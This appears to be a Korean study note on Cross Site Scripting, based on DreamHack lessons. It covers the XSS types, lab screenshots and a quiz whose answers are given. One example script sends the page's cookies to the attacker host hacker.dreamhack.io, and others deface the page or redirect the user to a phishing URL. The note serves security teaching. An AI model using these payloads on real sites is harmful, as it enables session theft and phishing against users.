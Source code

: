 # Cross Site Scripting (XSS)

## Cross Site Scripting (XSS)

XSS는 **클라이언트 사이드 취약점** 중 하나로, 공격자가 웹 리소스에 **악성 스크립트를 삽입**해 사용자가 해당 웹 리소스를 가져오면, **악성 스크립트를 실행**해서 정보를 탈취

**SOP 보안 정책**이 등장하면서, 이전에 비해 힘들어졌지만, 이를 **우회하는 다양한 기술**이 있다.

<img src="1.jpg">

## XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.

예를 들어 ``<script>`` 등을  이용해  악성  스크립트를  만들어서  사용자가  실행하게  한다.

XSS  종류는  다양하지만, 여기서는 4가지  정도  언급한다.  

|종류|내용|
|---|-----|
|Stored  XSS|XSS에  사용되는  악성  스크립트가 **서버에  저장**되고  서버의 **응답에  담겨오는** XSS|
|Reflected  XSS|XSS에  사용되는  악성  스크립트가 **URL에  삽입**되고  서버의 **응답에  담겨오는** XSS|
|DOM-based  XSS|XSS에  사용되는  악성  스크립트가 **URL  Fragment에  삽입**되는  XSS|
|Universal  XSS|클라이언트의 **브라우저** 혹은 **브라우저의  플러그인**에서  발생하는  취약점으로 **SOP  정책을  우회**하는  XSS|

<img src="2.jpg">

위의 실습에서 악성 스크립트를 작성하면, 아래 그림처럼 script를 탐지했다는 것을 볼 수 있다.

<img src="3.jpg">

## XSS 스크립트 예시

아까 적었던 것처럼 ``<script>`` 를  통해  악성  스크립트를  만듭니다.

즉, 자바스크립트를 주로 사용한다.

```html
<script>
// "hello" 문자열 alert 실행.
alert("hello");

// 현재 페이지의 쿠키(return type: string)
document.cookie;

// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);

// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";

// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new  Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

위의 코드는 **쿠키 및 세션 탈취** 공격 코드이다.

```html
<script>
// 이용자의 페이지 정보에 접근.
document;

// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

위의 코드는 **페이지 변조** 공격 코드이다.

```html
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing";

// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```

위의 코드는 **위치 이동** 공격 코드이다.  

# Basic XSS Lab(개편 전 실습)
## Types of XSS: Wrapup
### Stored XSS

**Stored XSS** : **서버의 데이터베이스** 또는 **파일** 등의 형태로 저장된 **악성 스크립트를 조회**할 때 발생하는 XSS(예 : 악성 스크립트가 들어간 게시물, 댓글 등)

<img src="4.jpg">

이렇게 스크립트를 적고, 목록에 가서 게시물을 클릭하면 다음과 같이 스크립트가 실행된다.

<img src="5.jpg">

### Reflected XSS

**Reflected XSS** : 서버가 **악성 스크립트가 담긴 요청을 출력**할 때 발생함(예 : 검색결과가 URL에 포함되는 경우 -> 검색엔진)  
-> Stored XSS와는 다르게 **URL과 같은 이용자의 요청**에 의해 발생  
--> 이용자들이 악성 링크에 접속하게 유도해야함(**Click Jacking** 또는 **Open Redirect**와 같은 취약점과 연계)

<img src="6.jpg">

다음과 같이 실습창이 있고, 위에 있는 URL에서 검색할 수 있다.

<img src="7.jpg">

그런데, 여기에 스크립트를 넣을 수도 있다.

<img src="8.jpg">

## Basic XSS Lab
**추후에 추가**

# 마치며
- **Cross Site Scripting (XSS)**: 클라이언트 사이드 취약점, 공격자가 **웹 리소스에 악성 스크립트를 삽입**해 이용자의 웹 브라우저에서 해당 **스크립트를 실행**하는 취약점.
- **Stored XSS**: 악성 스크립트가 **서버 내에** 존재, 이용자가 저장된 **악성 스크립트를 조회**할 때 발생
- **Reflected XSS**: 악성 스크립트가 **이용자 요청 내에** 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 **응답을 출력**할 때 발생

# 퀴즈
1. 이용자의 요청에 악성 스크립트가 포함되는 XSS는?  
``답 : Reflected XSS``

2. XSS 취약점이 발생하는 곳은?  
``답 : 클라이언트 + 서버``

3. 다음 설명이 말하는 XSS로 올바른 것은?  
**공격 스크립트가 서버 내에 존재하는 데이터베이스 또는 파일 등의 형태로 저장되어 있다가 이용자가 저장된 공격 스크립트를 조회하는 순간 발생하는 형태의 XSS 입니다.**  
``답 : Stored XSS``